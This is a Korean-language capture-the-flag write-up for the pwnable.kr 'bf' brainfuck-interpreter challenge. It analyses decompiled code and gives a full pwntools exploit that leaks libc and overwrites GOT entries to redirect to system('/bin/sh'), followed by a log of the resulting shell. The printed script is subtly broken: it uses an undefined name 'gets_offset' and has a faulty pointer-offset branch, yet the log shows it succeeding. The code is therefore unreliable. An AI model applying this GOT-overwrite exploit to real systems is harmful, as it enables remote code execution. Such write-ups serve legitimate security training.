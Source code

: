 # 문제  
I made a simple brain-fuck language emulation program written in C. 
The [ ] commands are not implemented yet. However the rest functionality seems working fine. 
Find a bug and exploit it to get a shell. 

Download : http://pwnable.kr/bin/bf
Download : http://pwnable.kr/bin/bf_libc.so

Running at : nc pwnable.kr 9001  

---
# 개요

문제를 해석해보면, 간단한 brain-fuck 언어 에뮬레이션 프로그램을 C언어로 작성하였는데, [ ]안에 들어갈 명령어를 아직 구현하지 못했다고 합니다. 그래서 버그를 찾아서 쉘을 획득하려고 한다고 합니다. 문제 풀이를 위해 바이너리 파일과 해당 바이너리파일에서 참조하는 libc 파일을 제공한다. 먼저 checksec 명령어를 사용하여 해당 바이너리에 어떤 mitigation 이 존재하는지 확인합니다.

```
secretpack@ubuntu:~/Desktop$ pwn checksec bf
[*] '/home/secretpack/Desktop/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

NX가 Enable 이기 때문에 Shellcode 는 사용하지 못하나, Partial RELRO 이기 때문에 got overwrite 는 가능할 것으로 파악됩니다. 이제 IDA로 정적분석을 시도합니다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@4
  int v4; // edx@4
  size_t i; // [sp+28h] [bp-40Ch]@1
  int v6; // [sp+2Ch] [bp-408h]@1
  int v7; // [sp+42Ch] [bp-8h]@1

  v7 = *MK_FP(__GS__, 20);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(&v6, 0, 0x400u);
  fgets((char *)&v6, 1024, stdin);
  for ( i = 0; i < strlen((const char *)&v6); ++i )
    do_brainfuck(*((_BYTE *)&v6 + i));
  result = 0;
  v4 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}
```

main 함수를 디컴파일 한 결과입니다. ```fgets()``` 로 1024(0x400)byte 만큼 입력을 받고, ```do_brainfuck()``` 함수가 호출되어, 한바이트씩 각자의 로직이 수행됩니다. 그리고 전역변수 ```p```에 전역변수 ```tape```의 주소값이 들어갑니다. 이제 ```do_brainfuck()``` 함수를 살펴봅시다.  

```c
int __cdecl do_brainfuck(char a1)
{
  int result; // eax@1
  _BYTE *v2; // ebx@7

  result = a1;
  switch ( a1 )
  {
    case 62:
      result = p++ + 1;
      break;
    case 60:
      result = p-- - 1;
      break;
    case 43:
      result = p;
      ++*(_BYTE *)p;
      break;
    case 45:
      result = p;
      --*(_BYTE *)p;
      break;
    case 46:
      result = putchar(*(_BYTE *)p);
      break;
    case 44:
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case 91:
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

위의 코드를 봤을 때 유효한 코드는 총 6개이며 정리하면 아래와 같습니다.  
* '+' = ++*p
* ',' = *p = ```getchar()```
* '-' = --*p
* '.' = ```putchar(*p)```
* '<' = p -= 1
* '>' = p += 1

---
# 분석

Partial RELRO 이므로 got Overwrite 가 가능하다. 따라서 libc leak을 수행한 뒤 ```memset@got``` 를 ```gets()```로 변경하고, ```fgets@got```를 ```system()```으로 변경한다, 마지막으로 ```putchar@got```를 ```main()``` 으로 변경하면, ```do_brainfuck()``` 함수에서 다시 ```main()```함수로 돌아와 ```gets()``` 함수로 입력받을 때, "/bin/sh" 를 입력한다면 쉘을 획득할 수 있을 것이다. 해당 내용을 바탕으로 exploit code를 작성한다.  
```python
from pwn import*

p = remote("pwnable.kr", 9001)
elf = ELF("./bf")
libc = ELF("bf_libc.so")

main_addr = elf.symbols['main']
fgets_got = elf.got['fgets']
memset_got = elf.got['memset']
putchar_got = elf.got['putchar']

offset_fgets = libc.symbols['fgets']
offset_gets = libc.symbols['gets']
offset_system = libc.symbols['system']

'''
.bss:0804A080 p               dd ?                    ; DATA XREF: do_brainfuck:loc_80485FEr
.bss:0804A080                                         ; do_brainfuck+2Aw ...
.bss:0804A084                 align 20h
.bss:0804A0A0 tape            db    ? ;               ; DATA XREF: main+6Do
'''

p_addr = 0x804a080
tape_addr = 0x804a0a0
binsh = "/bin/sh\0"

#1. libc leak

if tape_addr > fgets_got:
    payload = "<" * (tape_addr - fgets_got)
else:
    payload = ">" * (tape_addr + fgets_got)

payload += ".>" * 4
payload += "<" * 4

#2. overwrite fgets@got -> system

payload += ",>" * 4
payload += "<" * 4

#3. overwrite memset@got -> gets

if fgets_got > memset_got:
    payload += "<" * (fgets_got - memset_got)
else:
    payload += ">" * (memset_got - fgets_got)

payload += ",>" * 4
payload += "<" * 4

#4. overwrite putchar@got -> main

if memset_got > putchar_got:
    payload += "<" * (memset_got - putchar_got)
else:
    payload += ">" * (putchar_got - memset_got)

payload += ",>" * 4
payload += "<" * 4

payload += "."
p.sendlineafter("[]\n", payload)

sleep(2)

fgets_addr = u32(p.recv())
libc_base = fgets_addr - offset_fgets
system_addr = libc_base + offset_system
gets_addr = libc_base + gets_offset

p.send(p32(system_addr))
p.send(p32(gets_addr))
p.send(p32(main_addr))

p.sendlineafter("[]\n", binsh)

p.interactive()

```
```
secretpack@ubuntu:~/Desktop$ python3 bf.py
[+] Opening connection to pwnable.kr on port 9001: Done
[*] '/home/secretpack/Desktop/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/home/secretpack/Desktop/bf_libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
$ 
$ ls
brainfuck
flag
libc-2.23.so
log
super.pl
$ cat flag
#############################
```